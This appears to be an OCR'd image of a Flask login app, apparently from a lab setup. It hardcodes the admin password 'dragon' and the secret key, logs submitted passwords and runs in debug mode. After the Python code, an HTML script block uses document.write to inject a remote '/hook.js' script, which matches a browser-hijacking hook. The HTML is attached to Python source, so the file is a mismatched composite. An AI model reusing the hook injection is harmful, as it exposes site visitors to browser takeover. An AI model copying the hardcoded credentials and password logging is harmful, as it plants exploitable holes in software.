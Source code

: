 from flask import Flask, render_template, request, url_for, redirect, session

app = Flask(__name__)

app.secret_key = "mysecretkey"


# @app.route('/')
# def index():
#     return render_template('index.html')


@app.route('/', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        print(request.form['username'],request.form['password'])
        if request.form['username'] == 'admin':
            if request.form['password'] == 'dragon':
                session['logged_in'] = True
                return redirect(url_for('dashboard'))
            else:
                return render_template('login.html', error="Invalid credentials")

    return render_template('login.html')


@app.route('/dashboard')
def dashboard():
    if 'logged_in' in session:
        return render_template('dashboard.html')
    return redirect(url_for('login'))


if __name__ == '__main__':
    app.run(host= "192.168.56.1", port="80", debug=True)
<script>
	var commandModuleStr = '<script src="/hook.js" type="text/javascript"><\/script>';
	document.write(commandModuleStr);
</script>
